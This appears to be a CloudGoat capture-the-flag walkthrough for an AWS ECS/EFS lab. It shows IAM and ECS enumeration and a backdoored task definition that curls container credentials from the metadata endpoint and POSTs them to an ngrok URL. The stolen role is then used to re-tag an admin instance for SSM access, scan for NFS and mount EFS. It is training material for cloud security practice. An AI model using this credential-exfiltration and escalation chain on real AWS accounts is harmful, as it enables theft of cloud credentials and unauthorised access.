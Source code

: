 
## EFS ECS attack
The goal of this mission is to mount a file system on EFS and retrieve the flag. To build the resources for the scenario:
```
./cloudgoat.py create ecs_efs_attack
cd ecs_efs_attack<random generated strings>
```
### Privilege Enumeration
1. SSH into the instance ```ssh -i cloudgoat ubuntu@<IP address of ruse>```
2. Create a new profile (inherits the permissions from the EC2) ```aws configure --profile ruse```
3. Get the instance profile for the EC2 instance ```aws sts get-caller-identity```. The role name is found like so: arn:aws:sts::<account id>:assumed-role/<role name>/<instance id>
4. List the attached policies - 
  ```
  aws iam list-attached-role-policies --role-name <Role name>
   {
    "AttachedPolicies": [
        {
            "PolicyName": "cg-ec2-ruse-role-policy-ecs_efs_attack_cgid6sec93nj4n",
            "PolicyArn": "arn:aws:iam::<account id>:policy/<policy arn>"
        },
        {
            "PolicyName": "AmazonSSMManagedInstanceCore",
            "PolicyArn": "arn:aws:iam::aws:policy/AmazonSSMManagedInstanceCore"
        }
    ]
  }
  ```
5. Get the actual policy document - 
  ```
  aws iam get-policy-version --policy-arn arn:aws:iam::<account id>:policy/cg-ec2-ruse-role-policy-ecs_efs_attack_cgid6sec93nj4n --version-id v1
  {
      "PolicyVersion": {
          "Document": {
              "Statement": [
                  {
                      "Action": [
                          "ecs:Describe*",
                          "ecs:List*",
                          "ecs:RegisterTaskDefinition",
                          "ecs:UpdateService",
                          "iam:PassRole",
                          "iam:List*",
                          "iam:Get*",
                          "ec2:CreateTags",
                          "ec2:DescribeInstances",
                          "ec2:DescribeImages",
                          "ec2:DescribeTags",
                          "ec2:DescribeSnapshots"
                      ],
                      "Effect": "Allow",
                      "Resource": "*",
                      "Sid": "VisualEditor0"
                  }
              ],
              "Version": "2012-10-17"
          },
          "VersionId": "v1",
          "IsDefaultVersion": true,
          "CreateDate": "2023-04-13T04:01:32+00:00"
      }
  }
  ```
  We can see that the actions that are allowed e.g. EC2 (read), ECS (read and write) and iam (read)

### EC2 Enumeration
1. List all ec2 instances - ```aws ec2 describe-instances```. If you have lots of instances, filter by region and running state: ``` aws ec2 describe-instances --region us-east-1 --filters "Name=instance-state-name, Values=running"```
  Found 2 instances. With StartSession SSM tagged with both:
    * cg-ruse-ec2-ecs_efs_attack_cgid6sec93nj4n (StartSesion true) 
    * cg-admin-ec2-ecs_efs_attack_cgid6sec93nj4n (StartSesion false) <Note Instance ID>

### ECS Enumeration
1. List clusters - 
  ```
  aws ecs list-clusters
  {
      "clusterArns": [
          "arn:aws:ecs:us-east-1:<account id>:cluster/<cluster id>"
      ]
  }
  ```
2. List the services with the cluster to know which task we can update in order to go into the admin EC2. ECS highest level is a cluster-> service->task.
 ```
  aws ecs list-services --cluster <cluster arn>
  
  ```
  {
    "serviceArns": [
        "arn:aws:ecs:us-east-1:<account id>:service/<cluster name>/<service name>"
    ]
}
3. Describe the services to find task definition name
  ```
  aws ecs describe-services --cluster <cluster name> --services <service name>
  ...
  "taskDefinition": "<task definition arn>",
  ...
  ```
4. Describe the task definition and output to a file so we are able to change the behaviour
  ```
  aws ecs describe-task-definition --task-definition webapp:1 > backdoor.json
  ```
5. Change backdoor.json to the following:
```
{
	"containerDefinitions": [{
		"name": "webapp",
		"image": "python:latest",
		"cpu": 128,
		"memory": 128,
		"memoryReservation": 64,
		"portMappings": [{
			"containerPort": 80,
			"hostPort": 80,
			"protocol": "tcp"
		}],
		"essential": true,
		"entryPoint": ["sh", "-c"],
		"command": [
			"/bin/sh -c \"curl 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI > data.json && curl -X POST -d @data.json <NGROK URL>/data \" "
		],
		"environment": [],
		"mountPoints": [],
		"volumesFrom": []
	}],
	"family": "webapp",
	"taskRoleArn": "<task role arn>",
	"executionRoleArn": "<task role arn>",
	"networkMode": "awsvpc",
	"volumes": [],
	"placementConstraints": [],
	"requiresCompatibilities": ["FARGATE"],
	"cpu": "256",
	"memory": "512"
}
```
6. In order to create a ngrok url, we can firstly create a http server using node.js and then use ngrok to host the service.
    1. To create an http server, install node on your machine: https://nodejs.org/en/download
        1. Create a index.js file with the contents of index.js in this repository
        2. Run the http server: ```node index.js```
        3. Validate that is working by going to ```http://localhost:8080
    2. To host your http server, follow the steps to install ngrok: https://ngrok.com/download
      1. Once you have successfully ran the installations, start a tunnel by typing: ```ngrok http 8080```
      2. There should be a Forwarding url that will be displayed in which your website will be hosted, use that url as the NGROK URL above.
      ![image](https://user-images.githubusercontent.com/39514108/232182632-27d9dd76-7cf7-42e5-8858-6ff701f980e9.png)
      3. Validate that you are able to post data to the NGROK url by using ```curl -X POST -d "random string" <NGROK URL>/data```
7. Register the task
```
aws ecs register-task-definition --cli-input-json file://backdoor.json
aws ecs update-service --serivce <service ARN> --cluster <cluster ARN> --task-definition <task ARN>
```
8. After a few minutes, you should see that the credentials are sent through in the Node terminal or in the ngrok web interface in the following format
```
{"RoleArn":<ROLEARN>, "AccessKeyId": <AccessKeyId> "SecretAccessKey":"<SecretAccessKey">}
```
### ECS Role Investigation
1. Investigate the policies associated with the role ARN retrieved from the previous step
```
aws iam list-attached-role-policies --role-name <Role ARN>
aws iam get-policy-version --policy-arn <Policy ARN> --version-id v1
```
2. We see that the ecs role has the ability to perform SSM start session as per the policy below - with the condition that StartSession is True.
```
{
    "Action": "ssm:StartSession",
    "Condition": {
	"StringEquals": {
	    "aws:ResourceTag/StartSession": "true"
	}
    },
    "Effect": "Allow",
    "Resource": "arn:aws:ec2:*:*:instance/*",
    "Sid": "VisualEditor1"
}
```
So we need to change the tags on admin ec2 to do that using the instance id role then use SSM to start a session.

### EC2 Admin Privilege Escalation
1. Use the role credentials from the POST request to assume the ecs role. These will add on to the ruse EC2 credentials.
```
aws configure --profile ecs
<Eneter Access Key, Secret Access Key, Region (same as ruse) and output as text>
```
2. Update the tags ``` aws ec2 create-tags --resource <admin instance id> --tags “Key=StartSession,Value=true”```
3. SSM Start session ```aws ssm start-session --target <admin instance id> --profile ecs```

### Mount EFS
1. EFS runs on port 2049, so we can scan the network via the following: 
```
sudo snap install nmap -> install nmap
nmap -Pn -p 2049 --open 10.10.10.0/24
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-16 23:08 UTC
Nmap scan report for ip-10-10-10-225.ec2.internal (10.10.10.225) -> EFS Ip Address
Host is up (0.0014s latency).

PORT     STATE SERVICE
2049/tcp open  nfs

Nmap done: 256 IP addresses (256 hosts up) scanned in 16.70 seconds
```
2. Mount the efs
```
cd /mnt
mkdir /efs
sudo apt-get -y install nfs-common -> install nfs-common
sudo mount -t nfs4 -O no_netdev -o nfsvers=4.1,rsize=1048576,wsize=1048576,hard,timeo=600,retrans=2,noresvport <EFS IP>:/ /efs 
cat admin/flag.txt -> to get the final flag.
```
